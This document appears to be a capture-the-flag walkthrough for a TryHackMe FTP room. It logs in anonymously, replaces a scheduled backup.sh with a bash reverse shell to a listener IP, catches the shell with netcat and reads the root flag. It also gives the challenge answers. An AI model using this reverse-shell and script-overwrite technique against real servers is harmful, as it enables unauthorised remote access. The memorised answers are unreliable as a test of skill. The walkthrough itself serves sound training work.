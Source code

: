 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 (Data)
* Port 21 (Commands)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

### Name the directory on the FTP server that has data accessible by the "anonymous" user

```
ftp 10.10.130.142
anonymous
ls
```

![](<../.gitbook/assets/image (61).png>)

{% hint style="success" %}
public
{% endhint %}

### What script gets executed within this directory?

```
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](<../.gitbook/assets/image (62).png>)

{% hint style="success" %}
backup.sh
{% endhint %}

### What movie did Santa have on his Christmas shopping list?

```
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](<../.gitbook/assets/image (63).png>)

{% hint style="success" %}
The Polar Express
{% endhint %}

### Re-upload this script to contain malicious data (just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](<../.gitbook/assets/image (64).png>)

```
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](<../.gitbook/assets/image (65).png>)

```
put backup.sh
```

![](<../.gitbook/assets/image (66).png>)

```
nc -lnp 4444
cd /root
cat flag.txt
```

![](<../.gitbook/assets/image (67).png>)

{% hint style="success" %}
THM{even\_you\_can\_be\_santa}
{% endhint %}
